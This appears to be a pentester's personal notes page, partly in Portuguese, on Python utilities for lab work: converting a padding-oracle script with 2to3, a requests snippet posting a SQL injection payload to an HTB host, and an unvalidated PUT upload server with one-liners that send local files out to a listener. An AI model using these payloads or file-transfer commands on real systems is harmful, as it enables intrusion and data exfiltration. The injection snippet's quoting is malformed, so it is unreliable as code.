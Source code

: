 Utilities Python
========================

## Translate python 2 to 3

    2to3 

<https://docs.python.org/3/library/2to3.html>

Note no print abaixo que o script nao roda, por conta de erro de sintaxe:

![qownnotes-media-LXvWFU](../../media/qownnotes-media-LXvWFU.png)

Adequamos o script para python3 e funcionou direitinho:

```
2to3 -w /home/acosta/.local/lib/python3.11/site-packages/paddingoracle.py
```

![qownnotes-media-NXxuBo](../../media/qownnotes-media-NXxuBo.png)

![qownnotes-media-lXCIAP](../../media/qownnotes-media-lXCIAP.png)


## Python requests basic
```
import requests

url = 'http://intentions.htb/api/v1/gallery/user/genres'
myobj = {'genres': 'food,travel,nature' or 1 = 1#'}

x = requests.post(url, json = myobj)

print(x.text)

```

## Upload function http.server

```
##https://github.com/w0lfram1te/extended-http-server/blob/main/ehttpserver.py
## JUST PUT REQUESTS
## Path: ~/owncloud/Area_de_trabalho/tools/linux/6-Others/python
## python
##  python3 -c 'import requests; import os; filename="test.txt"; length=os.path.getsize(filename); requests.put("http://127.0.0.1:8000/"+filename, data=open(filename, "r").read(length))'


##  powershell
powershell -c "invoke-webrequest -method PUT -usebasicparsing -uri http://192.168.1.1:8000/test.txt -body (get-content test.txt)"

#!/usr/bin/python3

import http.server
import argparse

class ExtendedHTTPRequestHandler(http.server.SimpleHTTPRequestHandler):
    def __init__(self, *args, directory=None, **kwargs):
        super().__init__(*args, **kwargs)

    def do_PUT(self):
        """Serve a PUT request."""
        try:
            path = self.translate_path(self.path)
            length = int(self.headers["Content-Length"])
            if False: 
                pass # for future input validation
            else:
                with open(path, 'wb') as fh:
                    fh.write(self.rfile.read(length))
                self.send_response(201, "Created")
                self.end_headers()
        except:
            self.send_response(500, "Internal Server Error")
            self.end_headers

if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Extended HTTP Server by w0lfram1te')
    parser.add_argument('port', metavar='port', type=int, nargs='?', default=8000, help="listening port")
    parser.add_argument('-b','--bind', action='store', dest='bind', default='0.0.0.0', help="bind address")
    parser.add_argument('-p', '--port', action='store', dest='port', default=8000, help="listening port")
    args = parser.parse_args()

    print("[*] Running Extended HTTP Server")
    http.server.test(HandlerClass=ExtendedHTTPRequestHandler, port=args.port, bind=args.bind)

```

Pra fazere virar uma biblioteca, basta executar os eguinte comando:

    sudo cp upload_server.py /usr/lib/python3.11/http/upload_server.py
    python -m http.upload_server